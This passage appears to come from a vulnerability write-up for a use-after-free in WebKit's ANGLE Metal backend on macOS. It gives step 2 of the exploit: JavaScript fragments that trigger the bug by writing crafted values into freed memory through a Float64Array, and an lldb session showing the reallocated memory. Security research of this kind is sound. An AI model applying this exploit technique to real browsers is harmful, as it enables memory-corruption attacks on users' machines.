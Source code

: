 ### 2. trigger the bug

```javascript
// ...
for(let cnt=0;cnt<addr_list.length;cnt++) {
    for(let j=0;j<5;j++) {
        if(found)
            break;
        trigger(addr_list[cnt]);                    
// ...
```
The `trigger` function uses the address where the sprayed butterfly described in step 1 exists as an argument. 

The following is the main part of the `trigger` function. 

```javascript
function trigger(value)
{
    // ...
    g_f64.fill(value);
    g_f64[0] = 0.0;
    g_f64[1] = 0.0;

    g_f64[15] = 0.0;
    g_f64[16] = 0.0;
    g_f64[17] = 0.0;
    g_f64[18] = 0.0;
    g_f64[55] = qwordAsFloat( floatAsQword(value)-0x30 );
    g_f64[56] = 0.0;
    g_f64[57] = 0.0;
    g_f64[58] = 0.0;
// ..trigger code
```

`g_f64` is a `Float64Array` object that the attacker can use to write values to the freed memory region.

In the exploit code, `0.0 (0x000...00)` is set for each specific offset to prevent crashes during exploit execution.

`g_f64[55]` is any address that may be used as long as it is a writeable memory area address. 

The following is the memory when reallocated properly in the trigger function above.

```plaintext
(lldb) br set -n getCurrentBuffer
Breakpoint 1: where = libANGLE-shared.dylib`rx::BufferHolderMtl::getCurrentBuffer() const, address = 0x00007ffa28c62186
(lldb) c
Process 17555 resuming
Process 17555 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = breakpoint 1.1
    frame #0: 0x00007ffa28c62186 libANGLE-shared.dylib`rx::BufferHolderMtl::getCurrentBuffer() const
libANGLE-shared.dylib`rx::BufferHolderMtl::getCurrentBuffer:
->  0x7ffa28c62186 <+0>: push   rbp
    0x7ffa28c62187 <+1>: mov    rbp, rsp
    0x7ffa28c6218a <+4>: push   r14
    0x7ffa28c6218c <+6>: push   rbx
Target 0: (com.apple.WebKit.WebContent) stopped.
(lldb) x/10a $rsi
0x7fdb3d94c8f8: 0x00000008515baca8 // will be correct butterfly address.
0x7fdb3d94c900: 0x00000008515baca8
0x7fdb3d94c908: 0x00000008515bac78 // g_f64[55], butterfly address - 0x30.
0x7fdb3d94c910: 0x0000000000000000
0x7fdb3d94c918: 0x0000000000000000
```